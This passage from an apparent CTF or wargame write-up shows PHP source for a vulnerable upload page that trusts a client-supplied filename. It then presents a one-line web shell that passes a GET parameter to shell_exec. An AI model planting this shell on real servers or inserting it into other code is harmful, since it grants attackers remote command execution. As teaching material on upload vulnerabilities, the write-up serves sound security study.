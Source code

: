 <span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">[</span><span style="color: #DD0000">"filename"</span><span style="color: #007700">]);<br /><br /><br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if(</span><span style="color: #0000BB">filesize</span><span style="color: #007700">(</span><span style="color: #0000BB">$_FILES</span><span style="color: #007700">[</span><span style="color: #DD0000">'uploadedfile'</span><span style="color: #007700">][</span><span style="color: #DD0000">'tmp_name'</span><span style="color: #007700">])&nbsp;&gt;&nbsp;</span><span style="color: #0000BB">1000</span><span style="color: #007700">)&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;</span><span style="color: #DD0000">"File&nbsp;is&nbsp;too&nbsp;big"</span><span style="color: #007700">;<br />&nbsp;&nbsp;&nbsp;&nbsp;}&nbsp;else&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if(</span><span style="color: #0000BB">move_uploaded_file</span><span style="color: #007700">(</span><span style="color: #0000BB">$_FILES</span><span style="color: #007700">[</span><span style="color: #DD0000">'uploadedfile'</span><span style="color: #007700">][</span><span style="color: #DD0000">'tmp_name'</span><span style="color: #007700">],&nbsp;</span><span style="color: #0000BB">$target_path</span><span style="color: #007700">))&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;</span><span style="color: #DD0000">"The&nbsp;file&nbsp;&lt;a&nbsp;href=\"</span><span style="color: #0000BB">$target_path</span><span style="color: #DD0000">\"&gt;</span><span style="color: #0000BB">$target_path</span><span style="color: #DD0000">&lt;/a&gt;&nbsp;has&nbsp;been&nbsp;uploaded"</span><span style="color: #007700">;<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}&nbsp;else{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;</span><span style="color: #DD0000">"There&nbsp;was&nbsp;an&nbsp;error&nbsp;uploading&nbsp;the&nbsp;file,&nbsp;please&nbsp;try&nbsp;again!"</span><span style="color: #007700">;<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}<br />&nbsp;&nbsp;&nbsp;&nbsp;}<br />}&nbsp;else&nbsp;{<br /></span><span style="color: #0000BB">?&gt;<br /></span><br />&lt;form&nbsp;enctype="multipart/form-data"&nbsp;action="index.php"&nbsp;method="POST"&gt;<br />&lt;input&nbsp;type="hidden"&nbsp;name="MAX_FILE_SIZE"&nbsp;value="1000"&nbsp;/&gt;<br />&lt;input&nbsp;type="hidden"&nbsp;name="filename"&nbsp;value="<span style="color: #0000BB">&lt;?php&nbsp;</span><span style="color: #007700">print&nbsp;</span><span style="color: #0000BB">genRandomString</span><span style="color: #007700">();&nbsp;</span><span style="color: #0000BB">?&gt;</span>.jpg"&nbsp;/&gt;<br />Choose&nbsp;a&nbsp;JPEG&nbsp;to&nbsp;upload&nbsp;(max&nbsp;1KB):&lt;br/&gt;<br />&lt;input&nbsp;name="uploadedfile"&nbsp;type="file"&nbsp;/&gt;&lt;br&nbsp;/&gt;<br />&lt;input&nbsp;type="submit"&nbsp;value="Upload&nbsp;File"&nbsp;/&gt;<br />&lt;/form&gt;<br /><span style="color: #0000BB">&lt;?php&nbsp;</span><span style="color: #007700">}&nbsp;</span><span style="color: #0000BB">?&gt;<br /></span>&lt;div&nbsp;id="viewsource"&gt;&lt;a&nbsp;href="index-source.html"&gt;View&nbsp;sourcecode&lt;/a&gt;&lt;/div&gt;<br />&lt;/div&gt;<br />&lt;/body&gt;<br />&lt;/html&gt;<br /></span>
</code>

We can try to upload an image, but that won’t get us very far. We need to upload something with the ability to execute commands. Because this website is written in PHP, the code we upload should also be written in PHP.

Uploading a file that executes some kind of command (preferably in an interactive way) is called a web shell. They can range from very simple to very complex, but let’s start on the simpler side.

shell.php:

``` php
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```

- Gets the “e” parameter from a GET request
- Executes this value
- Redirects stderr (standard error) output to stdout (standard out) so we can see any error messages
